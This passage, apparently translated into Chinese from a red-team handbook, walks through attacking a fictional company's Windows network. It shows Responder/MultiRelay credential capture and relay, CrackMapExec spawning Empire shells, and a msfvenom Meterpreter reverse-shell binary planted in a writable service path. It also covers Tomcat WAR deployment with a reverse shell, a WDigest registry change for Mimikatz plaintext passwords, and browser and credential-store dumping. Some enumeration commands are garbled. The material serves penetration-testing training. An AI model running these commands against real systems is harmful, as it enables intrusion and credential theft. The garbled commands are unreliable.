

一旦我们找到一个唯一的**密码**，就可以使用`Ruler`转储所有用户在`O365 全局地址列表`（GAL）中的信息，以查找更多电子邮件地址以及他们所属的邮件组。



获取这些电子邮件地址后，我们应该能够通过运行`bruteforce`工具，将这些账号全部推过去查找更多凭据——这就是**密码圈**。

虽然`Ruler`工具具有这样的功能，但一旦拥有凭据之后，就可以滥用`OICE/Outlook`中的相关特性，在受害者的电子邮件账户上创建规则和表单。以下是来自`SensePost`的一篇优秀文章，概述了如何利用这些功能执行包含我们`Empire`负载的宏：

`https://sensepost.com/blog/2017/outlook-forms-and-shells/`

如果您决定不使用`Outlook`表单，或相关功能已被禁用，我们可以回到对电子邮件攻击的传统方法。这确实让人感觉有点不干净，因为您将不得不以用户之一的身份登录并阅读他们的所有邮件。

在我们从他们的邮件中读得开怀大笑几声后，我们希望找到一段他们看来还算信任（但并非好朋友）的人的现有对话记录。既然他们已经建立了融洽关系，我们想利用这一点并向他们发送恶意软件。

通常我们会修改他们之间的某一封带有附件（比如一个`Office`文件或可执行文件）的对话记录并重新发送给对方，但是这次加上我们的恶意代理代码。使用这些受信任的连接和来自内部地址的电子邮件提供了极好的掩护并取得成功。

我在本书中将反复提到的一点是：整个行动方案旨在测试**Blue Teams**及其检测和流程。我们希望完成某些任务，以观察他们是否会发出警报，或能够进行取证以确定发生了什么事件。

在实验室的这个部分中，我乐于验证公司是否能够确定有人正在泄露其用户的邮件数据。因此，我们所做的是使用`Python`脚本转储所有受影响的电子邮件：

`https://github.com/Narcolapser/python-o365#email`

在很多情况下，这些数据可能是几个吉字节！

### 高级实验室

# 一个很好的练习

一个很好的练习是获取不同的`认证类型`服务，并对它们全部进行`密码`测试。试着构建一个`密码喷洒`工具，针对`XMPP服务`、常见的第三方`SaaS`工具以及其他常见`协议`进行测试。更进一步的做法是，从多个`VPS`服务器（均由单一`主控服务器`控制）来进行此操作。

## 在网络中移动

作为`红队成员`，我们希望尽可能安静地移动通过网络。我们希望利用`功能`，以便能够查找并利用有关网络、用户、服务等信息。

一般来说，在`红队`行动中，我们不希望在环境中运行任何`漏洞扫描`。甚至在某些时候，我们也不希望对内部网络运行`nmap扫描`。这是因为许多公司已经相当擅长检测此类扫描，特别是当运行像`漏洞扫描器`这样引人注目的工具时。

在本节中，你将专注于在不触发任何检测的情况下，在`Cyber Space Kittens`的网络中移动。我们将假设你已经以某种方式进入了网络，并开始查找第一组`凭据`，或者已经在用户`机器`上有了 shell。

### 设置环境：实验室网络

这部分完全是可选的，但由于`Microsoft`的许可限制，书中没有预先准备的`VM实验室`可供使用。因此，现在由你来搭建实验室！

真正学习如何攻击环境的方法是自己完整地构建它。这能让你更清楚地了解你正在攻击什么，攻击为何成功或失败，以及理解某些工具或流程的局限性。

那么你需要构建什么样的实验室呢？根据客户的环境，你可能需要为`Windows`和`Linux`（可能还有`Mac`）各构建一个。如果你正在攻击企业网络，你可能需要构建一个完整的`Active Directory`网络。

在接下来的实验室中，我们将介绍如何为书中所有示例搭建实验室。

为你在家创建一个理想的`Windows测试实验室`可能看起来像这样：

- `域控制器 - 服务器`：`Windows 2016域控制器`
- `Web服务器`：`Windows 2016上的IIS`
- `客户端机器`：`Windows 10` x 3 和 `Windows 7` x 2
- 均在`VMWare Workstation`上运行，配备至少`16 GB` `RAM`和`500GB` `SSD硬盘`

### 配置和创建域控制器

`Microsoft`关于构建`2016服务器`的说明：

- `https://blogs.technet.microsoft.com/canitpro/2017/02/22/step-by-step-setting-up-active-directory-in-windows-server-2016/`
  - `Bit.ly链接`：`http://bit.ly/2JN8E19`

安装和配置`Active Directory`后，使用以下方法创建用户和组：`dsac.exe`

- 创建多个用户
- 创建组并分配给用户：
  - `Space`
  - `Helpdesk`
  - `Lab`

### 设置客户端机器（Windows 7/10）加入域

- 更新所有机器。
- 将机器加入域：
  - `https://helpdeskgeek.com/how-to/windows-join-domain/`
- 确保为每台机器添加一个域用户，使其能够在该机器上以`本地管理员`身份运行。这可以通过将该域用户添加到本地机器的本地管理员组来实现。
- 在每个主机上启用`本地管理员`并设置`密码`。
- 设置`GPO`以：
  - `禁用防火墙`（`https://www.youtube.com/watch?v=vxXLJSbx1SI`）
  - `禁用杀毒软件`（`http://bit.ly/2EL0uTd`）
  - `禁用更新`
  - 将`Helpdesk`添加到`本地管理员`组
  - 仅允许`域管理员`、`本地管理员`、`helpdesk`登录（`http://bit.ly/2qyJs5D`）
- 最后，将你的`GPO`链接到根域。
- 将所有 OS 的用户设置为`自动登录`（这让测试变得更容易）。每次机器启动或重启时，它将`自动登录`，以便我们轻松测试从内存中提取`凭据`的攻击：
  - `https://support.microsoft.com/en-us/help/324737/how-to-turn-on-automatic-logon-in-windows`
    - `Bit.ly链接`：`http://bit.ly/2EKatIk`

### 设置 IIS 服务器并配置 SPN

- `https://www.rootusers.com/how-to-install-iis-in-windows-server-2016/`
  - `Bit.ly链接`：`http://bit.ly/2JJQvRK`
- `https://support.microsoft.com/en-us/help/929650/how-to-use-spns-when-you-configure-web-applications-that-are-hosted-on`
  - `Bit.ly链接`：`http://bit.ly/2IXZygL`

## 无凭据的网络

假设你无法从`Spraying`他们的外部服务中获取任何`密码`，因此决定潜入大楼。你等到午餐时间后，走到`Cyber Space Kittens`的办公室，找到吸烟者的门。虽然你不吸烟，但你知道吸烟者有那种`帮派心态`。你点燃一支`香烟`，与工人闲聊，当他们走进大楼时，你紧随其后，无需任何询问！

既然你已经潜入`CSK设施`，你不想因为在那里停留太久而被抓住。你拿出你可靠的`drop box`（数据投递箱），找到一个空的办公室，将其插入网络，查看手机，确认它正在`beacon home`（向家中发送信号），然后迅速回到安全地带。

在家稍微有些出汗时，你迅速跳上你的`笔记本电脑`，登录你的`VPN服务器`，当你的`drop box beacons`仍然连接家中时，你松了一口气。现在你可以`SSH`进入你的`drop box`，其中包含你所有的`黑客工具`，你可以慢慢发现客户的网络，在箱子之间`pivot`，并尝试获取你关心的数据。

### Responder

就像之前的行动一样，我们使用了`Responder`（`https://github.com/lgandx/Responder`）在网络中监听并伪造响应，以获取网络上的`凭据`。

作为`The Hacker Playbook 2`的总结，当网络上的系统`DNS主机名`查找失败时，受害者系统使用`LLMNR`进行短期解析，使用`NBT-NS`进行备用名称解析。当受害者 PC 的`DNS查找`失败时，受害者开始询问网络上的任何人是否知道该`主机名`的解析方式。

一个简单而普遍的例子：假设你的 PC 有一个固定的挂载驱动器，路径为`\\cyberspacekittenssecretdrive\secrets`。一天后，IT 部门将该共享驱动器从网络移除，它不再存在。

由于你仍然拥有针对服务器名称`cyberspacekittenssecretdrive`的挂载驱动器，你的系统会不断询问网络是否有人知道它的 IP。现在，这个文件共享示例可能很少见；然而，由于先前连接的系统很可能不再存在于网络上，此问题仍会发生。

我们曾在挂载驱动器、具有`硬编码服务器`的`应用程序`以及多次`配置错误`中见过这种情况。

我们可以使用像`Responder`这样的工具，利用那些寻找`主机名`的系统，并用我们的恶意服务器作出响应。更好的是，`Responder`可以更进一步，充当`WPAD`服务器，将所有数据代理到我们的攻击服务器，但那是另一种攻击方式。

```bash
cd /opt/Responder
./Responder.py -I eth0 -wrf
```

现在，既然我们处于`Windows Enterprise`环境中，可以假设它很可能运行`Active Directory`。因此，如果我们能响应来自受害者主机的`DNS查找`，就可以让其系统连接到我们的`SMB共享`。

由于他们正在连接驱动器`\\cyberspacekittenssecretdrive`，我们将强制受害者使用其`NTLMv2凭据`（或`缓存凭据`）。我们捕获的这些凭据将不是普通的`NTLM哈希`，而是`NTLM挑战/响应哈希`（`NTLMv2-SSP`）。

这些哈希的唯一问题是它们比正常的`NTLM哈希`慢得多，但在我们的情况下，这并不成问题（参见`破解`部分），因为我们现在有大型`破解盒`可供使用。



我们可以提取`NTLMv1哈希值`，将其传递给`hashcat`并破解密码。在`hashcat`中，我们需要指定哈希格式`-m`（[示例哈希](https://hashcat.net/wiki/doku.php?id=example_hashes)）以用于`NetNTLMv2`。


`hashcat -m 5600 hashes\ntlmssp_hashes.txt passwordlists/*`

现在，假设我们不想破解哈希值，或者我们不介意向用户触发可疑警报，我们可以采取的做法是强制弹出基本身份验证窗口，而不是要求使用 NetNTLMv1 凭据。这可以通过使用`F`（ForceWpadAuth）和`b`（basic auth）来实现。

```bash
python ./Responder.py -I eth0 -wfFbv
```



如下图所示，用户将被提示输入用户名和密码。大多数人会凭直觉盲目输入这些信息。一旦他们提交了凭证，我们就能以明文形式捕获它们！



## Beta Responder (MultiRelay.py)

Responder 和破解 NTLMv2-SSP 哈希的问题在于，破解这些哈希所需的时间通常很长。更糟糕的是，我们在包含长达 20+ 字符的密码的环境中也曾遭遇过这种情况。面对这种挑战该怎么办？如果环境未强制启用 SMB 签名（我们可以通过快速的 nmap 脚本扫描发现 - [SMB 安全模式文档](https://nmap.org/nsedoc/scripts/smb-security-mode.html)），我们可以利用重放我们捕获的 SMB 请求来施展一个小把戏。Laurent Gaffie 在 Responder 中添加了一个工具来处理身份验证重放攻击。根据 Laurent 的网站，“`MultiRelay` 是 Responder 工具文件夹中强大的渗透测试工具，它允许您针对选定的目标执行定向的 NTLMv1 和 NTLMv2 重放。目前，`MultiRelay` 可将 HTTP、WebDav、Proxy 和 SMB 身份验证重放到 SMB 服务器。此工具可定制以满足一组用户向特定目标进行重放的场景。该概念背后的原理是仅针对域管理员、本地管理员或特权账户。” [介绍 Responder MultiRelay](http://g-laurent.blogspot.com/2016/10/introducing-responder-multirelay-10.html)

从高级角度看，`MultiRelay` 将不会强制受害者在我们的 SMB 共享中进行身份验证，而是会将任何身份验证请求重发到我们要选择的受害者主机。当然，用于重放的用户需要能够访问那台其他机器；然而，如果操作成功，则无需处理或破解任何密码。要开始使用，我们需要配置 Responder 和`MultiRelay`：

*   编辑 Responder 配置文件以禁用 SMB 和 HTTP 服务器
    *   `gedit Responder.conf`
    *   将 SMB 和 HTTP 选项更改为`Off`
*   启动 Responder
    *   `python ./Responder.py -I eth0 -rv`
*   在新终端窗口中启动`MultiRelay`
    *   `/opt/Responder/tools`
    *   `./MultiRelay.py -t <target host> -c <shell command> -u ALL`

一旦可以向受害者主机成功重放，我们需要考虑在受害者工作站上执行的操作。默认情况下，`MultiRelay` 可以生成基本 shell，但我们也可以自动执行 Meterpreter PowerShell 负载、Empire PowerShell 负载、我们的 dnsCat2 PowerShell 脚本下载和执行控制代理 (c2)、Mimikatz，或者仅仅是为了好玩运行 `calc.exe`。



### 参考资料

*   [跳过破解 Responder 哈希并重放它们](http://threat.tevora.com/quick-tip-skip-cracking-responder-hashes-and-replay-them/)

### PowerShell Responder

一旦我们攻破了 Windows 系统，我们就可以利用受害者的 PowerShell 执行类似 Responder 的攻击。原始 Responder 的两个功能可以通过以下两个工具来实现：

*   `Inveigh` - [来源地址](https://github.com/Kevin-Robertson/Inveigh/blob/master/scripts/inveigh.ps1)
*   `Inveigh-Relay`

要将其简化，所有这些已经在 Empire 中被构建好了。

## 无凭据的用户枚举

一旦我们进入网络，我们可以使用 Responder 获取凭据或 shell，但有时 SMB 签名已启用，导致破解 NTLMv2 SSP 不可行。这时我们需要退一步，从基础做起。在没有积极扫描网络的情况下，我们需要获取用户列表（可能用于密码喷洒甚至社会工程学攻击）。一种选项是从开始枚举域控制器的用户算起。历史上（回溯到 2003 年），我们可以尝试进行 RID 循环来获取所有用户账户列表。虽然这种方法已不再可用，但仍有其他选项可以暴力破解账户。一个方案是利用 Kerberos：

```bash
nmap -p88 --script krb5-enum-users --scriptargs "krb5_enum_users.realm=cyberspacekittens.local",userdb=/opt/userlist.txt <Domain Controller IP>
```



我们需要提供用户名单进行测试，但由于我们只是查询域控制器 (DC) 而不是对其进行身份验证，这种活动通常不会被检测到。现在，我们可以获取这些用户账户并开始再次进行密码喷洒！

## 使用 CrackMapExec (CME) 扫描网络

如果我们尚未攻入系统，但我们通过 Responder、配置错误的 Web 应用程序、暴力破解或打印机攻击获得了凭据的访问权限，那么我们可以尝试扫描网络，查看该帐户可以在哪里登录。简单的扫描工具如`CrackMapExec`(cme)可以帮助找到内部网络的初始进入点。历史上，我们一直使用 CME 扫描网络、通过网络进行 SMB 身份验证、远程执行命令到达许多主机，甚至通过 Mimikatz 提取明文凭据。随着 Empire 和 CME 的新功能，我们可以利用 Empire 的 REST API 功能。在以下场景中，我们将启动带有 RESTAPI 接口的 Empire 系统，在 CME 中更改密码以便让 CME 连接到 Empire，扫描网络我们拥有的单个凭据以进行登录尝试，最后如果在身份验证成功的情况下会自动向远程受害者系统推送 Empire 负载。如果您拥有 Helpdesk 支持或特权账户，请为大量 Empire shell 做好准备！

```bash
#Start Empire's REST API server
cd /opt/Empire
./empire --rest --password 'hacktheuniverse'
```

```bash
#Change the CrackMapExec Password
gedit /root/.cme/cme.conf
password=hacktheuniversity
```

```bash
# Run CME to spawn Empire shells
cme smb 10.100.100.0/24 -d 'cyberspacekittens.local' -u '<username>' -p '<password>' -M empire_exec -o LISTENER=http
```






## 攻陷初始主机后

一旦通过社会工程学、`Drop Boxes`（如 `Dropbox`）、`Responder`、攻击打印机或其他手段获取了对主机的访问权限，下一步该做什么？这一直是一个价值千万的问题。在过去，一切重点都在于理解我们在哪里以及周围的网络布局。我们最初可能会运行类似于 `netstat -ano` 的命令以找到受害者服务器所在域和用户所在的 IP 地址范围位置。我们还可以运行命令如 `ps` 或 `sc queryex type= service state= all | find "_NAME"` 来列出所有运行的服务并查找防病毒软件或其他主机基本保护程序。以下是我们在初期可能运行的一些其他示例命令：

**网络信息：**

*   `netstat -anop|findstr LISTEN` 进程列表：`tasklist /v` 系统主机信息：`sysinfo`、`Get-WmiObject-class win32-operatingsystem | select-property -exportcsv c:\temp\os.txt`、`wmic qfegetCaption,DescriptionHotFixID.InstalledOn` 简单文件搜索：
    *   `dir /s *password*`、`findstr /sn/ii/foo*`、`findstr/sipass*.txt**ini` 来自共享或挂载驱动器的信息：`powershell-Command "Get-WmiObject-Class Win32_Share"`、`powerShell-command "get-psdrive"`、`PowerShell-Command: Get Wmionobeclass win35_mappedlogicaldisk | select name_ProviderName`

说真的，没人有空去记住所有这些命令，但幸运的是！我相信，基于《`RTFM`》这本书（一个很好的资源），`leostat` 创建了一个快速 `Python` 脚本，其中包含大量这些方便的命令，可以通过名为 `rtfm.py` 的工具轻松搜索 (https://github.com/leostat/rtfm)。

*   更新并运行 `RTFM`
    *   `cd /opt/rtfm`
    *   `chmod +x rtfm.py`
    *   `./rtfm.py -u`
    *   `./rtfm.py -c 'rtfm'`
*   搜索所有标签
    *   `./rtfm.py -Dt`
*   查看每个标签下的所有查询/命令。我喜欢使用的是枚举类别
    *   `./rtfm.py -t enumeration | more`



现在，`RTFM` 相当全面，包含大量不同的有用命令。这是在任何行动期间都非常好的快速资源。

这些都是我们一直以来为了获取信息所做的工作，但如果我们能从环境中获取更多信息呢？使用 `PowerShell`，我们可以获取所需的环境/网络信息。由于 `PowerShell` 可以轻松从任何 `C2` 工具执行，你可以使用 `Empire`、`Metasploit` 或 `Cobalt Strike` 来执行这些实验。在接下来的示例中，我们将使用 `Empire`，但你可以随意尝试其他工具。

## 权限提升

有各种各样的方法可以从普通用户提升到特权账户。

**未加引号的服务路径：**

*   这是一种相对简单且常见的漏洞，即服务可执行文件路径未被引号包围。这会被利用，因为如果路径周围没有引号，我们可以滥用当前服务。假设我们有一个配置为执行 `C:\Program Files (x86)\Cyber Kittens\Cyber Kittens.exe` 的服务。如果我们拥有对 `Cyber Kittens` 文件夹的写入权限，我们可以将恶意软件放置在 `C:\Program Files (x86)\Cyber Kittens\Cyber.exe` 位置（注意 `Kittens.exe` 缺失）。如果该服务以系统权限运行，我们可以等待服务重启，让我们的恶意软件以特权账户运行。

*   如何查找易受攻击的服务路径：
    *   `wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """`
    *   查找 `BINARY_PATH_NAME`

**查找服务的不安全注册表权限：**

*   识别允许更新服务映像路径位置的弱权限
*   检查 `AlwaysInstallElevated` 注册表键是否启用：
    *   检查 `AlwaysInstallElevated` 注册表键，该键决定 `.MSI` 文件是否应以提升权限（`NT AUTHORITY\SYSTEM`）安装
    *   https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/always_install_elevated.rb

请注意，我们实际上不必手动执行这些操作，因为已经专门为 `Windows` 创建了一些优秀的 `Metasploit` 和 `PowerShell` 模块。在以下示例中，我们将查看 `PowerUp` `PowerShell` 脚本 (https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/PowerUp.ps1)。在这种情况下，该脚本与 `Empire` 配合使用，将运行所有常见的错误配置区域，这些配置允许普通用户获取本地管理员或系统账户。在下面的示例中，我们在受害机系统上运行了此脚本，并发现了一些针对 `localsystem` 的未加引号的服务路径。现在，我们可能无法重启服务，但我们应该能够利用该漏洞并等待重启。

*   **Empire PowerUp 模块：**
    *   `usermodule privesc/powerup/allchecks`



一眼就能看出：

`ServiceName` : `WavesSysSvc`

`Path` : `C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe`

`ModifiableFile` : `C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe`

`ModifiableFilePermissions` : `{WriteOwner, Delete, WriteAttributes, Synchronize...}`

`ModifiableFileIdentityReference` : `Everyone`

`StartName` : `LocalSystem`

看起来 `WavesSysSvc` 服务可由所有人写入。这意味着我们可以将 `WavesSysSvc64.exe` 文件替换为我们自己的恶意二进制文件：

*   创建 `Meterpreter` 二进制文件（稍后将讨论如何绕过 `AV`）
    *   `msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe`
*   使用 `Empire` 上传二进制文件并替换原始二进制文件
    *   `upload ./shell.exe C:\\users\\test\\shell.exe`
    *   `shell copy C:\users\test\Desktop\shell.exe "C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe"`
*   重启服务或等待重启

一旦服务重启，你应该会重新获得以 `system` 权限运行的 `Meterpreter` 会话！使用 `PowerUp`，你会发现许多潜在易受权限提升攻击的不同服务。如果你想深入了解 Windows 权限提升背后问题的基础知识，请查看 `FuzzSecurity` 的文章：http://www.fuzzysecurity.com/tutorials/16.html。

对于未打补丁的 `Windows` 系统，我们确实有一些首选的权限提升攻击方法，例如 (https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1) 和 (https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135)，但我们如何快速识别 `Windows` 系统上安装了哪些补丁？我们可以使用受害机系统上的默认命令来查看安装了哪些服务包。`Windows` 自带默认命令 `systeminfo`，它将提取任何给定 `Windows` 主机的所有补丁历史记录。我们可以将该输出推送到我们的 `Kali` 系统，并运行 `Windows Exploit Suggester` 来查找针对这些漏洞的已知漏洞利用。

回到你的 `Windows 10` 受害机系统：

*   `systeminfo`
*   `systeminfo > windows.txt`
*   将 `windows.txt` 复制到 `/opt/Windows-Exploit-Suggester` 下的 `Kali` 机器中
*   `python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls`


这个工具已经有一段时间没有积极维护了，但你可以轻松添加你正在寻找的权限提升漏洞。

在完全打补丁的 `Windows` 环境中，我们关注第三方软件中的不同权限提升漏洞或操作系统的新漏洞/0-day 漏洞。例如，我们经常寻找像这样的漏洞 http://bit.ly/2HnX5id，这是一种 `Windows` 权限提升漏洞，目前看来尚未打补丁。通常在这些场景中，可能会有一些基本的 `POC` 代码，但测试、验证并最终完成漏洞利用的任务在于我们。我们定期监控的公共权限提升漏洞领域包括：

*   http://insecure.org/search.html?q=privilege%20escalation
*   https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=escalation&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids

通常，这只是关于时机的问题。例如，当发现漏洞时，这可能就是你在系统打补丁之前进一步破坏系统的有限机会窗口。

## 权限提升实验

测试和尝试不同权限提升漏洞的最佳实验平台是 `Rapid7` 的 `Metasploitable3` (https://github.com/rapid7/metasploitable3)。这个易受攻击的框架会自动构建一个 `Windows` VM，包含所有常见和一些不常见的漏洞。虽然设置需要一点时间，但一旦 VM 配置完成，它是一个很好的测试实验室。

为了引导你快速示例并让你开始：

*   对 `Metasploitable3` 进行 `nmap` 扫描（确保扫描所有端口，以免遗漏某些端口）
*   你会看到端口 `8383` 上运行着 `ManageEngine`
*   启动 `Metasploit` 并搜索任何 `ManageEngine` 漏洞
    *   `msfconsole`
    *   `search manageengine`
    *   `use exploit/windows/http/manageengine_connectionid_write`
    *   `set SSL True`
    *   `set RPORT 8383`
    *   `set RHOST <Your IP>`
    *   `exploit`
    *   `getsystem`
*   你会注意到你无法获得 `system` 权限，因为你破坏的服务不是以特权进程运行的。在这里你可以尝试所有不同的权限提升攻击。

*   我们看到的是，`Apache Tomcat` 正在作为 `特权进程` 运行。如果我们可以滥用此服务，我们可能能够以更高权限的服务执行我们的有效载荷（payload）。我们看到 `Apache Tomcat` 在外部端口 `8282` 上运行，但它需要用户名和密码。既然我们拥有用户态（`userland`）shell，我们可以尝试在磁盘上搜索该密码。这就是我们要在互联网上搜索的地方，或者谷歌搜索 "Tomcat 密码存储在哪里"。结果，`tomcat-users.xml`。

*   在受害机器上，我们可以搜索并读取 `tomcat-users.xml` 文件：
    *   `shell`
    *   `cd \ && dir /s tomcat-users.xml`
    *   `type "C:\Program Files\Apache Software Foundation\tomcat\apache-tomcat-8.0.33\conf\tomcat-users.xml`

*   现在，让我们用找到的密码攻击 `Tomcat`。首先，登录到端口 `8282` 的 `Tomcat` 管理控制台，查看我们的密码是否有效。然后，我们可以使用 `Metasploit` 通过 `Tomcat` 部署恶意 WAR 文件。
    *   `search tomcat`
    *   `use exploit/multi/http/tomcat_mgr_upload`
    *   `show options`
    *   `set HTTPusername sploit`
    *   `set HTTPpassword sploit`
    *   `set RPORT 8282`
    *   `set RHOST <Metasploitable3_IP>`
    *   `set Payload java/shell_reverse_tcp`
    *   `set LHOST <Your IP>`
    *   `exploit`
    *   `whoami`

*   你现在应该处于 `System` 状态。我们利用第三方工具提权到 `System`。

## 从内存中提取明文凭证

`Mimikatz` (https://github.com/gentilkiwi/mimikatz) 已经存在一段时间，它在获取明文密码方面改变了游戏规则。在 `Windows 10` 之前，作为 `本地管理员` 在主机系统上运行 `Mimikatz`，允许攻击者从 `LSASS`（本地安全子系统服务）中提取明文密码。这一直有效，直到 `Windows 10` 的出现，使得即使作为 `本地管理员` 也无法读取它。现在，我见过一些奇怪的用例，其中 `Single Sign-On`（单点登录）或某些独特的软件将密码放回 `LSASS`，供 `Mimikatz` 读取，但我们将暂时忽略这些。在本章中，我们要讨论在无效时（如 `Windows 10`）该怎么做。

假设你已经攻陷了 `Windows 10` 工作站并提权到 `本地管理员`。默认情况下，你会运行 `Mimikatz`，根据下方的查询，你会看到密码字段为 `NULL`。


那么你能做什么？最简单的选项是设置注册表项，将密码放回 `LSASS`。在 `HKLM` 中有一个 `UseLogonCredential` 设置，如果设置为 `0`，将凭证存储回内存 (http://bit.ly/2vhFBiZ)：

*   `reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`
*   在 `Empire` 中，我们可以通过 shell 命令运行此命令：
    *   `shell reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`

这个设置的问题是我们需要用户重新登录系统。你可以引起屏幕超时、重启或注销，以便能够再次捕获明文凭证。但最简单的方法是将他们的工作站锁定（以便他们不丢失任何工作……看看我们有多好？）。触发锁定屏幕：

*   `rundll32.exe user32.dll,LockWorkStation`

一旦我们引起锁定屏幕，让他们重新登录，我们可以再次运行 `Mimikatz` 获取明文密码。


如果我们无法访问 `本地管理员账户`？我们有什么其他选项来获取用户的凭证？以前的时候，常见的渗透测试攻击是查看用户态内存中的厚客户端，查看凭证是否以明文存储。现在一切都基于浏览器，我们是否可以在浏览器中做同样的事情？

这就是 `putterpanda` 制作了一个很酷的 `POC`（概念验证）风格工具来完成这项工作，称为 `Mimikittenz` (https://github.com/putterpanda/mimikittenz)。`Mimikittenz` 做了什么？它利用 `Windows` 函数 `ReadProcessMemory()`，从各种目标进程（如浏览器）中提取纯文本密码。

`Mimikittenz` 为 `Gmail`、`Office365`、`Outlook Web`、`Jira`、`Github`、`Bugzilla`、`Zendesk`、`Cpanel`、`Dropbox`、`Microsoft OneDrive`、`AWS Web Services`、`Slack`、`Twitter` 和 `Facebook` 预加载了大量的内存搜索查询。也很轻松地在 `Mimikittenz` 中编写搜索表达式。

这个工具最好的部分是它不需要 `本地管理权限`，因为它是完全用户态内存。一旦我们攻陷了一个主机，我们将把 `Mimikittenz` 导入内存，并运行 `Invoke-mimikittenz` 脚本。


如上所示，用户登录了 `Github`，我们能够从浏览器的内存中提取他们的用户名和密码。现在，希望大家能将该工具提升到下一个水平，并为不同的应用程序创建更多的搜索查询。

## 从 Windows 凭证存储和浏览器中获取密码

`Windows Credential Store`（凭证存储）是 `Windows` 的默认功能，用于保存系统、网站和服务器的用户名、密码和证书。当你使用 `Microsoft IE/Edge` 进行网站身份验证时，通常会出现一个弹出窗口询问“你想要保存你的密码吗？”凭证存储就是存储这些信息的地方。在凭证管理器中，有两种类型的凭证：`Web` 和 `Windows`。你还记得哪个用户可以访问这些数据？不是 `system`，而是登录并可以检索此信息的用户。这对我们来说很棒，因为对于任何钓鱼或代码执行，我们通常都是该人员的权限。最好的部分是，我们甚至不需要是 `本地管理员` 才能提取这些数据。


如何提取此信息？我们可以导入两个不同的 `PowerShell` 脚本来收集这些数据：

*   收集 `Web Credentials`（网络凭证）：
    *   https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1
*   收集 `Windows Credentials`（仅适用于 `Generic` 类型，不适用于 `Domain`）：
    *   https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1


